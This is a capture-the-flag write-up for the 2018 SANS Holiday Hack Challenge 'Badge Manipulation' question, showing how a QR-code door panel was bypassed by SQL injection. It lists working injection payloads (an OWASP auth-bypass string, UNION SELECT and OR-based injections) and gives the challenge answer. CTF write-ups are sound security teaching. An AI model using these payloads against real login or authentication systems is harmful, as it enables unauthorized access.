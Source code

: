 Question 6: Badge Manipulation
==============================

| Bypass the authentication mechanism associated with the room near Pepper Minstix. `A sample employee badge is available <https://www.holidayhackchallenge.com/2018/challenges/alabaster_badge.jpg>`_ . What is the access control number revealed by the `door authentication panel <https://scanomatic.kringlecastle.com/index.html>`_? For hints on achieving this objective, please visit Pepper Minstix and help her with the :doc:`Yule Log Analysis </terminals/YuleLogAnalysis>` Cranberry Pi terminal challenge.

Answer: *19880715*

Solution
^^^^^^^^

To solve this question we relied on the online `QR Code Generator <https://www.the-qrcode-generator.com/>`_ to generate the QR codes needed for the `Scanomatic door authentication panel <https://scanomatic.kringlecastle.com/index.html>`_. We also utilised ``Google Chrome -> Developer Tools -> Network -> Response`` to obtain the response from the door authentication panel.

Using the hints associated with this question, we assumed that the aim of this challange was to utilise a *SQLi injection* attack. We initially created a QR code representing the SQL injection with the the Auth Bypass code recommended by OWASP: ``or 1-- -' or 1 or '1"or 1 or"`` The QR code looked like:

.. image:: /images/qr1.png

This generated the following response::

 {"data":"Authorized User Account Has Been Disabled!","request":false}

This indicated that we could either perform a SQL injection or simply meant that our input was safely handled by the door authentication panel.

We then tried using a simple string with the hope that it would return some type of error. The string we used was ``';test``. This generated the following response from the door authentication panel::

 {"data":"EXCEPTION AT (LINE 96 \"user_info = query(\"SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '{}' LIMIT 1\".format(uid))\"): (1064, u\"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test' LIMIT 1' at line 1\")","request":false}

This was extremely helpful output because it showed the SQL query used by the panel including where our input was injected.

We then tried to inject a valid SQL statement using ``' #`` and obtained the following output::

 {"data":"No Authorized User Account Found!","request":false}


Based on this information, we decided to generate a query that included a condition where the **enabled** field was evaluated to true. We tried ``' UNION SELECT first_name,last_name,enabled FROM employees WHERE enabled = 1 #`` and were successful. The QR code for this successful entry looked like:

.. image:: /images/qr2.png

The response from the panel was::

 {"data":"User Access Granted - Control number 19880715","request":true,"success":{"hash":"ff60055a84873cd7d75ce86cfaebd971ab90c86ff72d976ede0f5f04795e99eb","resourceId":"false"}}

Other succesful injections
^^^^^^^^^^^^^^^^^^^^^^^^^^

After a bit of experimentation we found some alternative QR codes that consisted of the following statements::

 ' UNION SELECT first_name,last_name,enabled FROM employees WHERE enabled = '1' LIMIT 1; -- {'

and:

::

 ' OR enabled = 1 #

